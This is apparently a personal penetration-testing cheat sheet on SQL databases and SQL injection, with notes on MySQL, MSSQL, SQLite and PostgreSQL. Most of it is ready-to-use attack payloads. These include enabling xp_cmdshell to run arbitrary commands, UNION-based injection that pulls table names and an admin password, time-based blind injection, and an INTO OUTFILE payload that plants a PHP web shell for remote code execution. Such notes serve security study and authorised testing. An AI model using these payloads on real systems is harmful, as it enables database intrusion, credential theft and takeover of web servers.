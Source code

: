 ```yaml
---
layout: blank
pagetitle: SQL Attacks
---
```


https://pentestmonkey.net/category/cheat-sheet/sql-injection
## Enumeration/Discovery
- General fuzzing can help, but try to think from the developer's perspective when coming up with the example query
- Matching on numbers may not use single/double quotes at all
	- `SELECT * FROM rooms WHERE room_id = 1;` uses no quotes

## MySQL
- MariaDB is an open-source fork
- `mysql -u {username} -p -h {host IP} -P {port}`
- Specifying multiple parameters `SELECT user, passhash FROM mysql.user WHERE user = '{username}'`
- Enumeration:
	- List all databases: `SELECT * FROM information_schema.tables;`
	- Version: `SELECT @@version;`
	- Current user: `SELECT system_user();`

## MSSQL
- Database management built into Windows
- Command-line tool `SQLCMD` allows SQL queries through cmd
- Kali has `impacket-mssqlclient` to connect to MSSQL databases
	- `impacket-mssqlclient {username}@{host IP} -windows-auth`
		- After opening SQL terminal, can run EXECUTE commands using xp_cmdshell
			- This can be enabled by a user with permissions with 
			- `EXECUTE sp_configure 'show advanced options', 1; 
				- Showing advanced options is actually required to run xp_cmdshell
			- `RECONFIGURE;` 
			- `EXECUTE sp_configure 'xp_cmdshell', 1;`
			- `RECONFIGURE;`
			- Then, pass arbitrary commands with `EXECUTE xp_cmdshell 'whoami';`
	- `-windows-auth` forces the use of NTLM auth (rather than Kerberos)
- List all databases: 
	- `SELECT name FROM sys.databases;`
	- Then, `SELECT * FROM {database name from first query}.information_schema.tables;`
	- This returns the tables within that database, which we can query from with `SELECT * from {database name}.dbo.{table name}`
		- `dbo` is a table schema

## SQLite
- Use `sqlitebrowser` for viewing sqlite databases

## PostgreSQL
- Use `psql` for to connect to PostgreSQL databases

## SQL Exploitation
- Techniques:
	- Can trail SQL injection queries with `//` to provide visibility on the payload and protect against whitespace truncation
	- Can use `IN` to inject arbitrary second command:
		- `' OR 1=1 IN (SELECT version()) -- //`
		- `' OR 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //`
- Enumerating tables
	- `' UNION SELECT table_name FROM information_schema.tables -- //`
	- `' UNION SELECT column_name FROM information_schema.columns WHERE table='{table_name} -- //`
- UNION-based Payloads
	- UNION query must include same number of columns as original
		- To find number of columns, use ORDER BY
			- `' ORDER BY 1 -- //`
			- Orders results by a specific column, so it will fail when selected column doesn't exist (iterate through column numbers to find max columns)
		- Can also do `' UNION SELECT null, null, null, ...` until no error
		- If we make the original input invalid, then pass a valid union select, we can see where each piece of data ends up
			- `9999 union select 1,2,3,4,5`
	- Data types need to be compatible between each column
	- E.g. `$query = "SELECT * FROM customers WHERE name LIKE '".$_POST["input"]."%'";`
		- Used `' ORDER BY 5 -- //` and `' ORDER BY 6 -- //` to determine 5 columns
		- Thus payload becomes `%' UNION SELECT null, null, database(), user(), @@version -- //`, filling unneeded columns (including ID column 1) with null
- Blind injection
	- Can use booleans alongside sleep commands to verify existence of data/characters
		- `' AND IF (1=1, sleep(3), 'false') -- //` 
- MySQL RCE via SQLi
	- Use the `INTO OUTFILE` to create a PHP/JSP/ASPX/etc shell
		- Example: `' UNION SELECT "<?php system('whoami');?>", null, null INTO OUTFILE "/var/www/html/tmp/shell.php" -- // `
			- `tmp` is important, because we might not have perms for `/html`
		- Then, either LFI the new file or straight up access it if possible
	- Can also extract users/passwords and crack hashes
	- Could search up phpmyadmin version to get RCE (LFI + session cookie can lead to RCE)
